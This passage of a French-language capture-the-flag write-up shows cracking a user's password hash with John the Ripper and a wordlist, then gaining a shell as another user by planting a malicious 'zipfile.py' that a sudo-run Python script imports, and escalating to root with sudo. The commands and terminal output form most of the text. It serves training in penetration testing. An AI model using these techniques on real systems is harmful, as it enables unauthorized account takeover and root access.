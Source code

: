 ```console
$ john --wordlist=.rockyou.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Remaining 2 password hashes with 2 different salts
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
johnnydepp       (parth)
```

Avec ce compte, on ne peut pas modifier `backup.py` mais on peut écrire dans le dossier parent. On va utiliser le fait que Python aille d'abord chercher les modules dans le dossier courant :

```console
parth@findingmyfriend:/home/honey/...$ ls -al .
total 12
drwxrwx--- 2 honey parth 4096 Jan  6  2021 .
drwxr-xr-x 3 honey honey 4096 Jan  6  2021 ..
-r-xr-xr-x 1 honey honey  358 Jan  6  2021 backup.py
parth@findingmyfriend:/home/honey/...$ echo -e 'import pty\npty.spawn("/bin/bash")' > zipfile.py
parth@findingmyfriend:/home/honey/...$ sudo -u honey /home/honey/.../backup.py
bash: /home/parth/.bashrc: Permission denied
honey@findingmyfriend:/home/honey/...$ sudo su
root@findingmyfriend:/home/honey/...# cd /root
root@findingmyfriend:~# ls
root@findingmyfriend:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Une fois le shell `honey` récupéré on utilise ses permissions `sudo` pour passer root.
